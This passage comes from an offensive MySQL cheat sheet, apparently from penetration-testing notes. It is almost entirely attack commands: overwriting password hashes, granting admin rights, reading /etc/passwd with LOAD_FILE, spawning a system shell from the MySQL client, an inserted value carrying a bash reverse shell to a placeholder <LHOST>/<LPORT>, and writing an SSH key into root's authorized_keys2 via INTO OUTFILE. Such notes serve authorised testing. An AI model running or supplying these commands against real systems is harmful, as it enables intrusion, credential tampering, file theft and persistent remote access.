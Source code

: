 ```c
mysql> UPDATE user SET password = '37b08599d3f323491a66feabbb5b26af' where user_id = 1;
mysql> UPDATE users SET password = '$2a$12$QvOBZ0r4tDdDCib4p8RKGudMk0VZKWBX21Dxh292NwrXwzwiuRIoG';
```

### Update User Privileges

```c
mysql> UPDATE user set is_admin = 1 where name = "<USERNAME>";
```

### Base64 Encoding

```c
mysql> SELECT TO_BASE64(password) FROM accounts where id = 1;
```

### Read a File

```c
mysql> SELECT LOAD_FILE('/etc/passwd');
mysql> SELECT CAST(LOAD_FILE('/etc/passwd') AS CHAR)\G;
```

### User Privilege Check

```c
mysql> SELECT group_concat(grantee, ":",privilege_type) FROM information_schema.user_privileges
```

### File Privilege Check

```c
mysql> SELECT file_priv FROM mysql.user WHERE user = 'netspi'
mysql> SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee LIKE '%netspi%'
```

### Drop a Shell

```c
mysql> \! sh;
mysql> \! /bin/sh;
```

### Insert Code to get executed

```c
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

### Write SSH Key into authorized_keys2 file

```c
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```
